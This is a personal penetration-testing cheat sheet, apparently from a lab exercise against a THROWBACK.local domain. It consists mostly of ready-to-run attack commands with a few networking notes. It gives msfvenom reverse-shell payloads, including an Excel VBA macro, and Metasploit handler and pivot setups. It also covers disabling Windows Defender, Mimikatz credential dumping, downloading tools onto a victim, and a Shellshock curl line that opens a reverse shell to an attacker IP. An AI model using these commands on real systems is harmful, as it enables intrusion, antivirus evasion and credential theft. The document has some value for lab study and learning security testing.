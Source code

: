 # One Liners:
## Powershell one liner ping sweep
```powershell
100..255 | % {"192.168.0.$($_): $(Test-Connection -count 1 -comp 192.168.0.$($_) -quiet)"}
```

# File Transfers:
## From Linux to Windows:


# Networking:
## Fixing Internet and Asking DHCP for IP:
```bash
# ENS33 = interface
sudo ip link set ens33 up
sudo dhclient ens33 -v
```

## Adding a new route:
-> Adding a route to 192.168.0.101 via 10.10.10.15 (Gateway) and mask (255.255.255.0):
--> Windows:
```batch
route add 192.168.0.101 mask 255.255.255.0 10.10.10.15
```
--> Linux:
```bash
sudo ip route add 192.168.0.101 via 10.10.10.15
```

# Binary Exploitation
## Compiling binaries in 32-bit for BoFs:
```bash
gcc main.c -o main --no-stack-protector -z execstack -m32
# In case an error occurs about some file missing, try this command:
sudo apt-get install gcc-multilib
# and then this command
sudo apt-get install libx11-dev:i386 libx11-dev
```

## Finding offset of a function in a binary:
```bash

```

# Active Directory

## Stabalizing shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL-Z
stty raw -echo
fg
export TERM=screen
```
## Payloads:
```bash
# Windows Rev shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=55 -f exe  > rev.exe
# Excel macro using VBA
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```

## Metasploit:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 55
set lhost tun0
```

## Metasploit Setting up Socks Proxy
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 55
exploit
## Execute the pre-compiled version on prod
background
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.200.19.0/24
exploit

use auxiliary/server/socks_proxy
set VERSION 4A
exploit
```

## If username exists in credguard and found in windows vault:
```bat
runas /savecred /user:admin-petersj /profile cmd.exe
```

## Disable AV using Powershell:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Dumping with Mimikatz:
```bash
privilege::debug
token::elevate

lsadump::lsa /patch
sekurlsa::tickets /export

lsadump::sam
sekurlsa::logonPasswords
```

## Sharphound:
```bash
powershell -ep bypass
. .\\Sharphound.ps1
## OR
Import-Module .\\Sharphound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain THROWBACK.local -ZipFileName loot.zip
```

## Transferring using SCP:
```bash
scp user@ip:/path/to/file outfile.ext
```

## Downloading Mimikatz onto the victim machine
```bash
mkdir mimikatz
cd mimikatz
wget 10.50.17.48:8000/mimikatz/mimidrv.sys -outfile mimidrv.sys
wget 10.50.17.48:8000/mimikatz/mimikatz.exe -outfile mimikatz.exe
wget 10.50.17.48:8000/mimikatz/mimilib.dll -outfile mimilib.dll
```

## Evil-Winrm:
```bash
# From THROWBACK-DC01 setup proxy and then use this to go into CORP-DC01
proxychains evil-winrm -i 10.200.19.118 -u mercerh -p pikapikachu7
```

# Misc:

## Shellshock Exploitation:

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<YOUR IP>/<PORT> 0>&1' http://<Victim IP>/cgi-bin/<Script>
```

## MSFVenom:
```bash
# Simple Windows Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=2225 -f exe > ms17–010.exe
# Windows Rev shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=55 -f exe  > rev.exe
# Raw Windows Rev Shell
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=192.168.0.29 --platform windows -a x64 --format raw -o sc_x64_payload.bin
# Excel macro using VBA
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
# WAR Rev Shell for Apache Tomcat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Running commands of Languages in command line:
```bash
python -c 'print("Hello World!")'
perl -e 'system("echo Hi");'
ruby -e "system('echo hi')"
```

## Upload file on webserver using curl and PUT method:
```bash
curl -v -T <file_name> http://<IP>/<dir>/ -0
```

